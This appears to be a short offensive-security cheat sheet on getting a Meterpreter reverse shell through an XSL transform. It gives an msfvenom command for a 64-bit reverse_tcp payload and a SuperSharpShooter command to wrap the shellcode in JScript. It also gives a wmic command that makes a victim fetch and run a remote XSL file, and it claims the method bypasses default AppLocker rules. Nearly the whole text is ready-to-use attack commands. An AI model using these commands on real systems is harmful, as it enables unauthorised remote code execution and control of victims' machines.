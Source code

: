 # XSL Transform

Can be combined with JScript code (SuperSharpShooter) to get a meterpreter shell.

>![CAUTION] 
> Bypasses default AppLocker Rules.
> We can use 64bit shellcode.

### Create shellcode:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt`

### Create JScript using SuperSharpShooter:

`python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test`

Embed the JS content to the XSL template, and on victim, run: `wmic process get /format:"http://192.168.0.1/test.xsl"`
